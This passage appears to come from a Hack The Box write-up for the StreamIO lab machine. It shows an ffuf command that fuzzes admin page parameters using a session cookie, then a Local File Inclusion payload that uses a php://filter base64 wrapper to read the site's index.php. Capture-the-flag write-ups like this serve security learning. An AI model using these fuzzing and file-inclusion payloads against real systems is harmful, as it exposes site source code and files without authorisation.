 ```sh
# fuzzing parameters
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' -b PHPSESSID=0ulvdblaskvmbr4gb3eodvdrsj --fs 1678
```

![screenshot](/assets/images/streamio10.png)

## LFI
When navigating to https://streamio.htb/admin/?debug= we see a message that states this option is for developers only.

![screenshot](/assets/images/streamio11.png)

Using a PHP wrapper we can attempt to perform Local File Inclusion to see if the site is vulnerable.

```sh
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```

![screenshot](/assets/images/streamio12.png)
